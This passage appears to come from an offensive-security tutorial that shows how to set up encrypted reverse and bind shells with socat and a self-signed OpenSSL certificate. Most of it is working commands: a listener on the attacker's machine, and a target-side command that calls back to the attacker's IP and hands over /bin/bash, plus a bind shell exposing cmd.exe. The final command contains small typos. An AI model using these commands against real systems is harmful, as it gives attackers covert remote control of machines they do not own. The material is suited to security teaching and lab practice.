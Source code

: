 ```console
~$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048-bit RSA key with a matching certificate file, self-signed and valid for just under a year. When this command is executed, it will ask for information about the certificate. This can be left blank or filled randomly. 

We then merge the two created files together
```console
~$ cat shell.key shell.crt > shell.pem
```

Then, to set up a reverse shell listener, we use

```console
~$ socat OPENSSL-LISTEN:<PORT>, cert=shell.pem, verify=0 -
```

`verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. 

> The certificate **must** be used on whichever device is listening.

To connect to the listener, we execute the following on the target:

```console
~$ socat OPENSSL:<LOCAL_IP>:<LOCAL_PORT>, verify=0 EXEC:/bin/bash
```

The entire process will look like

![Encrypted reverse shell](./img/socat_encrypted_reverse_shell.png "Encrypted reverse shell")

In the image, the attacker is on the left, while the target is on the right.

Similarly for a bind shell, the target starts a listener using

```console
~$ socat OPENSSL_LISTEN:<PORT>, cert.shell.pem, verify=0 EXEC:cmd.exe,pipes
```
